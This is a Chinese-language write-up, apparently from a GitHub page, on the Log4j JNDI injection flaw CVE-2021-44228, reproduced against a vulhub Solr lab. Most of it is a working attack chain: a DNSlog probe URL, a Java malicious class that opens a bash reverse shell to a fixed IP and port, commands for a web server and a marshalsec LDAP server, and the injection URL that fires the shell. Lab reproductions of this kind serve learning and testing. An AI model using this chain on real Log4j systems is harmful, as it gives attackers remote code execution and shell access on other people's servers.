


## CVE-2021-44228-Log4jJNDI注入命令执行

**漏洞描述**

Apache Log4j 2 是Java语言的日志处理套件，使用极为广泛。在其2.0到2.14.1版本中存在一处JNDI注入漏洞，攻击者在可以控制日志内容的情况下，通过传入类似于${jndi:ldap://evil.com/example}的lookup用于进行JNDI注入，执行任意代码。

### 漏洞原理

JNDI 全称为 **Java Naming and Directory Interface**，即 Java 名称与目录接口，是一种查找其他组件、资源或服务的通用机制。JNDI Context 的查找内容如果用户可控，就存在 JNDI 注入的可能。通过精心构造服务端的返回，我们可以让请求查找的客户端解析远程代码，最终实现远程命令执行

### 漏洞复现

使用vulhub CVE-2021-44228的镜像进行复现

poc，dnslog检测

~~~
http://101.43.138.109:8080/solr/admin/cores?action=${jndi:ldap://${sys:java.version}.4140sv.dnslog.cn}
~~~

编译一个恶意类

~~~
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            //String[] commands = {"/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/101.43.138.109/1770 0>&1"};
            Process pc = rt.exec("/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/101.43.138.109/1770 0>&1");
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
~~~

开启web服务

~~~
python3 -m http.server 2333
~~~

开启LDAP服务

~~~
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://101.43.138.109:2333/#TouchFile" 1099
~~~

反弹shell，RMI协议同理

~~~
http://101.43.138.109:8080/solr/admin/cores?action=${jndi:ldap://101.43.138.109:1099/TouchFile}
~~~

Log4j的利用方式以及原理和fastjson十分相似，通过jndi注入，调用LDAP或RMI协议，远程加载恶意类造成反序列化命令执行。

### 漏洞修复

升级到log4j 2.15.0以上版本

